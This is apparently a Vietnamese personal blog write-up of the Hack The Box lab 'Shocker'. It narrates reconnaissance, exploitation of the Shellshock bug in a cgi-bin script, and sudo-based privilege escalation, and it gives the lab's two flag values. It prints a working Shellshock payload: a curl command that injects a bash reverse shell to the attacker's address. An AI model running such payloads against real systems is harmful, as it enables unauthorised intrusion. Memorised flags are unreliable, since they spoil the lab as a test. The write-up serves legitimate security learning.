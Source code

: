 ```yaml
---
title: Shocker
Date: 2025-01-07
category: Hack The Box
tags:
  - HTB
  - Shocker
---
```

# Mô tả
Ngẫu hứng đêm phia ^^. Vì nay nhức chân không thể chạy bộ theo kế hoạch, chán quá không biết làm gì thôi thì làm một bài easy cho đỡ chán.
Lướt mô tả của các bài easy một hồi thì mình quyết định chọn bài này, vì nó làm mình nhớ đến cái bug huyền thoại thời nào.
Đây là mô tả của bài lab để bạn biết cụ thể hơn mình đang nói điều gì :)))
![Screenshot](/assets/htb/Pasted image 20250107002756)
# Attack
## Recon
Như thường lệ, vẫn là `nmap`
![Screenshot](/assets/htb/Pasted image 20250107003411.png)
Vẫn là port 80 quen thuộc. Truy cập web thôi.
![Screenshot](/assets/htb/Pasted image 20250107003531.png)
Giao diện web cũng không có gì vui. Như một thói quen thời sinh viên, dirsearch thử xem có thư mục hay file nào hay ho không.
![Screenshot](/assets/htb/Pasted image 20250107003800.png)
Kết quả từ gobuster cũng vọn vẹn nhiêu đây. À há có `cgi-bin` kìa. Thử dirsearch phát nữa xem có gì hot.
![Screenshot](/assets/htb/Pasted image 20250107003937.png)
Ây da, lòi ra một file `.sh`.
![Screenshot](/assets/htb/Pasted image 20250107004026.png)
Truy cập vào thì chỉ có bấy nhiêu thông tin => Hơi thất vọng.
`Just an uptime test script` -> đây có vẻ như là một lệnh nào đó của linux. Đúng rồi đó là lệnh `uptime`.
## Exploit Shellshock
Mà ủa "làm vậy để làm chi ?", thật sự tới đây mình chưa hiểu được vấn đề ở đây là gì ? Thôi thì tạm để nó qua một bên vậy.
Nhớ lại đoạn mô tả của bài lab này có nhắc đến `Shellshock exploit`. Đây cũng chính là lỗ hổng trong truyền thuyết mà mình đã nhắc ở đầu bài viết. Cứ thử exploit thử xem sao đã.
![Screenshot](/assets/htb/Pasted image 20250107013223.png)
Ngol lụm luôn.
## Flag 1
![Screenshot](/assets/htb/Pasted image 20250107013519.png)
Flag 1: `94f6590c169a65d3375d01d7b2786046`
## Privileges
Vẫn như thói quen hồi đại học. Cứ hễ nghĩ đến leo quyền là nhanh tay gõ lệnh `sudo -l`.
![Screenshot](/assets/htb/Pasted image 20250107014136.png)
May thay đây cũng là một lab dạng easy nên có ngay kết quả chưa một binary có thể dùng quyền sudo mà không cần password.
Chuyện leo quyền bây giờ trở nên đơn giản hơn rồi. Việc còn lại là viết một payload sử dụng perl call tới /bin/bash như người dùng root là xong.
Do là gom chung vào 1 payload khá là khó chẹo nên mình quyết định reverse shell vào user `shelly` rồi sau đó leo quyền cho dễ.
![Screenshot](/assets/htb/Pasted image 20250107015655.png)
Payload: `curl -A '() { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.16.14/2804 0>&1' http://10.129.206.242/cgi-bin/user.sh`.
## Flag 2
![Screenshot](/assets/htb/Pasted image 20250107020250.png)
Flag 2: `bb1604537f6b21a35dab9402628b959a`.